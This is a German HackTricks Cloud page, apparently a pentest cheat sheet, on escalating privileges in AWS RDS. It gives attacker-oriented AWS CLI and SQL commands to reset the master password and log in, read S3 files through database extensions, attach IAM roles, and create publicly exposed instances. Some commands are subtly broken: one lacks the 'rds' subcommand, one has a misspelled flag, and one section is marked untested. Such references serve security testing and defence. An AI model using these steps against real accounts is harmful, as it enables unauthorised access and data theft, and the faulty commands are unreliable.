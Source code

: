 # AWS - RDS Privilege Escalation

<details>

<summary><strong>Lernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) Github-Repositorys einreichen.

</details>

## RDS - Relationale Datenbankdienste

Für weitere Informationen zu RDS siehe:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Mit dieser Berechtigung kann ein Angreifer das **Passwort des Master-Benutzers ändern** und sich in der Datenbank anmelden:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Sie müssen in der Lage sein, **eine Verbindung zur Datenbank herzustellen** (normalerweise nur aus internen Netzwerken erreichbar).
{% endhint %}

**Potenzielle Auswirkungen:** Sensible Informationen in den Datenbanken finden.

### rds-db:connect

Gemäß der [**Dokumentation**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) könnte ein Benutzer mit dieser Berechtigung eine Verbindung zur DB-Instanz herstellen.

### Missbrauch von RDS-Rollen-IAM-Berechtigungen

#### Postgresql (Aurora)

{% hint style="success" %}
Wenn Sie bei der Ausführung von **`SELECT datname FROM pg_database;`** eine Datenbank namens **`rdsadmin`** finden, wissen Sie, dass Sie sich in einer **AWS-Postgresql-Datenbank** befinden.
{% endhint %}

Zuerst können Sie überprüfen, ob diese Datenbank verwendet wurde, um auf einen anderen AWS-Dienst zuzugreifen. Sie könnten dies überprüfen, indem Sie die installierten Erweiterungen betrachten:
```sql
SELECT * FROM pg_extension;
```
Wenn Sie etwas wie **`aws_s3`** finden, können Sie davon ausgehen, dass diese Datenbank **irgendeine Art von Zugriff auf S3** hat (es gibt auch andere Erweiterungen wie **`aws_ml`** und **`aws_lambda`**).

Außerdem, wenn Sie Berechtigungen haben, **`aws rds describe-db-clusters`** auszuführen, können Sie dort sehen, ob dem **Cluster eine IAM-Rolle zugeordnet ist** im Feld **`AssociatedRoles`**. Falls ja, können Sie davon ausgehen, dass die Datenbank **für den Zugriff auf andere AWS-Services vorbereitet wurde**. Basierend auf dem **Namen der Rolle** (oder wenn Sie die **Berechtigungen** der Rolle erhalten können), könnten Sie **vermuten**, welchen zusätzlichen Zugriff die Datenbank hat.

Um eine **Datei innerhalb eines Buckets zu lesen**, müssen Sie den vollständigen Pfad kennen. Sie können sie lesen mit:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Wenn Sie **rohe AWS-Anmeldeinformationen** hätten, könnten Sie diese auch verwenden, um auf S3-Daten zuzugreifen:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql muss keine Parametergruppenvariablen ändern, um auf S3 zugreifen zu können.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Wenn Sie in einem MySQL die Abfrage **`SELECT User, Host FROM mysql.user;`** ausführen und es einen Benutzer namens **`rdsadmin`** gibt, können Sie davon ausgehen, dass Sie sich in einer **AWS RDS MySQL-Datenbank** befinden.
{% endhint %}

Führen Sie im MySQL **`show variables;`** aus und wenn die Variablen wie **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** Werte haben, können Sie davon ausgehen, dass die Datenbank darauf vorbereitet ist, auf S3-Daten zuzugreifen.

Außerdem, wenn Sie Berechtigungen haben, um **`aws rds describe-db-clusters`** auszuführen, können Sie überprüfen, ob der Cluster eine **zugeordnete Rolle** hat, was normalerweise den Zugriff auf AWS-Dienste bedeutet.

Nun, um **eine Datei in einem Bucket zu lesen**, müssen Sie den vollständigen Pfad kennen. Sie können es mit:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Ein Angreifer mit den Berechtigungen `rds:AddRoleToDBCluster` und `iam:PassRole` kann **eine bestimmte Rolle zu einer vorhandenen RDS-Instanz hinzufügen**. Dies könnte es dem Angreifer ermöglichen, **auf sensible Daten zuzugreifen** oder die Daten innerhalb der Instanz zu ändern.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten in der RDS-Instanz.\
Beachten Sie, dass einige DBs zusätzliche Konfigurationen erfordern, wie z. B. Mysql, bei dem die Rollen-ARN in den Parametergruppen angegeben werden müssen.

### `rds:CreateDBInstance`

Nur mit dieser Berechtigung könnte ein Angreifer eine **neue Instanz innerhalb eines bereits vorhandenen Clusters** erstellen, die über eine **IAM-Rolle** verfügt. Er wird das Master-Benutzerpasswort nicht ändern können, aber er könnte die neue Datenbankinstanz möglicherweise dem Internet zugänglich machen:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

Ein Angreifer mit den Berechtigungen `rds:CreateDBInstance` und `iam:PassRole` kann **eine neue RDS-Instanz mit einer spezifizierten Rolle erstellen**. Der Angreifer kann dann potenziell auf **sensible Daten zugreifen** oder die Daten innerhalb der Instanz ändern.

{% hint style="warning" %}
Einige Anforderungen der Rolle/des Instanzprofils, die angehängt werden müssen (von [**hier**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Das Profil muss in Ihrem Konto existieren.
* Das Profil muss eine IAM-Rolle haben, die von Amazon EC2 angenommen werden darf.
* Der Name des Instanzprofils und der zugehörige IAM-Rollenname müssen mit dem Präfix `AWSRDSCustom` beginnen.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten im RDS-Instanz.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Ein Angreifer mit den Berechtigungen `rds:AddRoleToDBInstance` und `iam:PassRole` kann **eine bestimmte Rolle zu einer vorhandenen RDS-Instanz hinzufügen**. Dies könnte es dem Angreifer ermöglichen, **auf sensible Daten zuzugreifen** oder die Daten innerhalb der Instanz zu ändern.

{% hint style="warning" %}
Die DB-Instanz muss außerhalb eines Clusters liegen, um dies zu ermöglichen.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potenzielle Auswirkungen**: Zugriff auf sensible Daten oder unbefugte Änderungen an den Daten in der RDS-Instanz.

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Null auf Held mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks im PDF-Format herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merch**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github Repositories einreichen.

</details>
